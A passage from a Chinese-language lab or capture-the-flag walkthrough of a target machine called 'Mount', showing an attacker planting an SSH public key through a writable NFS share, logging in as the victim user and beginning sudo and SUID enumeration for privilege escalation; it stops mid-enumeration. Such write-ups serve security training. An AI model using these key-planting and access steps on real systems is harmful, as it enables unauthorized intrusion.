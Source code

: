 查看目录内容并植入SSH公钥：

```bash
nfsuser@kali:/mnt/ll104567$ ls -la
总计 20
drwx------ 2 nfsuser nfsuser 4096  8月21日 03:45 .
...
-rw-r--r-- 1 nfsuser nfsuser  220 2019年 4月18日 .bash_logout
-rw-r--r-- 1 nfsuser nfsuser 3526 2019年 4月18日 .bashrc
-rw-r--r-- 1 nfsuser nfsuser  807 2019年 4月18日 .profile

nfsuser@kali:/mnt/ll104567$ mkdir -p .ssh
nfsuser@kali:/mnt/ll104567$ chmod 700 .ssh
nfsuser@kali:/mnt/ll104567$ cp /mnt/hgfs/gx/x/authorized_keys .ssh/
```

# 三、获取初始访问权限

使用植入的SSH密钥登录系统：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ ssh ll104567@192.168.205.173
Linux Mount 4.19.0-27-amd64 #1 SMP Debian 4.19.316-1 (2024-06-25) x86_64
...
Last login: Wed Aug 20 23:46:24 2025 from 192.168.3.94

ll104567@Mount:~$ id
uid=6666(ll104567) gid=6666(ll104567) groups=6666(ll104567)
```

成功获得ll104567用户的Shell访问权限。

# 四、权限提升

## 4.1 系统枚举

检查sudo权限：

```bash
ll104567@Mount:~$ sudo -l
Matching Defaults entries for ll104567 on Mount:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User ll104567 may run the following commands on Mount:
    (ALL) NOPASSWD: /sbin/reboot
```

用户只能执行reboot命令，无法直接提权。

检查SUID文件：
